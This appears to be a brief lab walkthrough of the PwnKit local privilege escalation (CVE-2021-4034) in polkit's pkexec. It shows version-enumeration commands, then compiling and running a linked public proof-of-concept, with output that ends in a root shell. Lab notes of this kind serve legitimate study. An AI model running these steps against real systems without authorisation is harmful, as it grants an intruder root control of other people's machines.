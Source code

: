 # CVE-2021-4034 - Linux - PwnKit - Local Privilege Escalation

## Enumeration

```bash
$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

```bash
$ uname -a

Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
$ pkexec --version

pkexec version 0.105
```

## Exploitation

Compile and run [cve-2021-4034-poc.c](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c)

```bash
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ./cve-2021-4034-poc 

# id
uid=0(root) gid=0(root) groups=0(root),1001(htb-student)
```

## Links

- [SecList - pwnkit](https://seclists.org/oss-sec/2022/q1/80)
- [Qualys - pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
- [GitHub - PoC - arthepsy](https://github.com/arthepsy/CVE-2021-4034)
